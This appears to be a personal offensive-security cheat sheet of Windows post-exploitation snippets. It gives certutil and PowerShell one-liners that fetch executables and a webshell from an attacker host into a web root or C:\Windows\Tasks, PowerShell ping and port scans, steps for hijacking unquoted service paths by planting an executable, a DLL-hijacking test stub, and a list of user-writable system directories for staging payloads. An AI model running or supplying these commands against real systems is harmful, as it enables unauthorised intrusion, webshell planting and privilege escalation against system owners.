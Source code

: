   # Windows Snippets

wget for Windows:
```
certutil.exe -urlcache -f http://172.16.1.100:8001/FILE.exe OUTFILE.exe
or
powershell "(New-Object System.Net.WebClient).DownloadFile('http://HOST:PORT/webshell.php', 'C:\Apache24\htdocs\SOME_DIR\BLEND_ING.php')"
or
powershell iwr -uri 'http://10.10.16.111/FILE.exe' -Outfile C:\\Windows\\Tasks\\FILE.exe
```

check for impersonate privs and other privs:
```
whoami /priv
```

Run `dir` recursively:
```
gci -recurse .
```

Get open/connected ports
```
netstat -aon
```

# Scans
Subnet ping scan (about 5 seconds per host)
```
1..20 | % {"10.10.123.$($_): $(Test-Connection -count 1 -comp 10.10.123.$($_) -quiet)"}
```
Port scan single host ([other port scans](https://medium.com/@nallamuthu/powershell-port-scan-bf27fc754585))
```
1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("10.10.123.110",$_)) "Port $_ is open!"} 2>$null
```

# Exploiting Windows Services
Listing services for weak perms and unquoted service paths ([link](https://www.hackingarticles.in/windows-privilege-escalation-weak-services-permission/))
```
wmic service get name,startname,pathname
```
```
sc qc SERVICENAME # Check if BINARY_PATH_NAME calls an unquoted service path and see if is a priv esc opp
```
```
./accesschk /accepteula -uwdq "C:\DIR\FROM\ABOVE" # check write perms of a subdir of BINARY_PATH_NAME so we can commandeer the service call w our own executable
```
```
net start SERVICENAME # start the service after dropping our executable into the path
```

Kernel Priv Esc:
- save `systeminfo` output and run through the [Windows Exploit Suggester_new](https://github.com/bitsadmin/wesng)


# DLL Injections
- x86_64-w64-mingw32-gcc-win32

__hello.c__
```
#include <windows.h>
#include <stdio.h>

int main( void )
{
	HINSTANCE hDll;

	// Load a DLL
	hDll = LoadLibrary(TEXT("yoyo.dll"));

	// If DLL Was Loaded
	if (hDll != NULL){
		printf("DLL Found\n");
	} else {
		printf("DLL NOT FOUND!\n");
	}

	return 0;
}
```

__dll.c__
```
#include <windows.h>

BOOL WINAPI
DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved)
{
	switch (dwReason)
	{
		case DLL_PROCESS_ATTACH:
			MessageBox(
				Null, // Owner
				"Some Message Text",
				"The Title",
				MB_ICONERROR | MB_OK // TYPE
			);
		break;
	}
	return TRUE;
}
```

## Tips
1. https://github.com/ankh2054/windows-pentest

__Dirs writable by default by normal users:__
```
C:\Windows\Tasks
C:\Windows\Temp
C:\windows\tracing
C:\Windows\Registration\CRMLog
C:\Windows\System32\FxsTmp
C:\Windows\System32\com\dmp
C:\Windows\System32\Microsoft\Crypto\RSA\MachineKeys
C:\Windows\System32\spool\PRINTERS
C:\Windows\System32\spool\SERVERS
C:\Windows\System32\spool\drivers\color
C:\Windows\System32\Tasks\Microsoft\Windows\SyncCenter
C:\Windows\System32\Tasks_Migrated (after peforming a version upgrade of Windows 10)
C:\Windows\SysWOW64\FxsTmp
C:\Windows\SysWOW64\com\dmp
C:\Windows\SysWOW64\Tasks\Microsoft\Windows\SyncCenter
C:\Windows\SysWOW64\Tasks\Microsoft\Windows\PLA\System
```
